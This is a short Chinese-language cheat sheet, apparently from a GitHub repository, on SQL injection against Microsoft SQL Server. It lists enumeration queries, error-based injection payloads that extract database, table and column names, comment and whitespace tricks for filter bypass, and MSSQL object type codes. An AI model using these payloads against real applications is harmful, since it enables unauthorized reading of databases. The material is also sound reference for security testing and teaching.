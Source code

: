 ## mssql 注入

### 基础信息查询
查询数据库名称
```
select name from master.dbo.sysdatabases;
```
`master、model、msdb、tempdb`是mssql的默认数据库

查询用户权限
```
select IS_MEMBER('db_owner');
```
服务器角色包含：`sysadmin、serveradmin、securityadmin、processadmin、setupadmin、bulkadmin、diskadmin、dbcreator、public`
数据库角色包含：`db_owner、db_securityadmin、db_accessadmin、db_backupoperator、db_ddladmin、db_datawriter、db_datareader、db_denydatewriter、db_denydatareader`

查询数据库版本
```
select @@version;
```

查询当前数据库名
```
select db_name();
```

查询服务器名称
```
select HOST_NAME();
select @@SERVERNAME;
```

爆当前数据库
```
select * from xxx where id=1 and db_name()>0;
select * from xxx where id=1 and db_name()>'e';
```

爆表名，xx代表表名
```
select * from xxx where id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name='xx');
select * from xxx where id=1 and 'e'<(select top 1 name from sysobjects where xtype='u' and name='xx');
```

爆列名
```
select * from xxx where id=1 and 'b'>(select top 1 name from syscolumns where id=(select id from sysobjects where name='xx') and name<>'id');
```

### Bypass
特殊符号
```
注释: /* */  --
空白符号: /**/
```

mssql对象类型
```
AF = 聚合函数 (CLR)
C = CHECK 约束
D = 默认或默认约束
F = FOREIGN KEY 约束
L = 对数
FN = 标量函数
FS = 装配 (CLR) 标量函数
FT = 装配(CLR) 表值函数
IF = 内联表函数
IT = 内部表
P = 存储过程
PC = 程序集 (CLR) 存储过程
PK = 主键约束（类型为 K）
RF = 复制过滤器存储过程
S =系统表
SN = 同义词
SO = 序列
SQ = 服务队列
TA = 装配 (CLR) DML 触发器
TF = 表函数
TR = SQL DML 触发器
TT = 表类型
U = 用户表
UQ = UNIQUE 约束（类型为 K）
V = 视图
X = 扩展存储过程
```
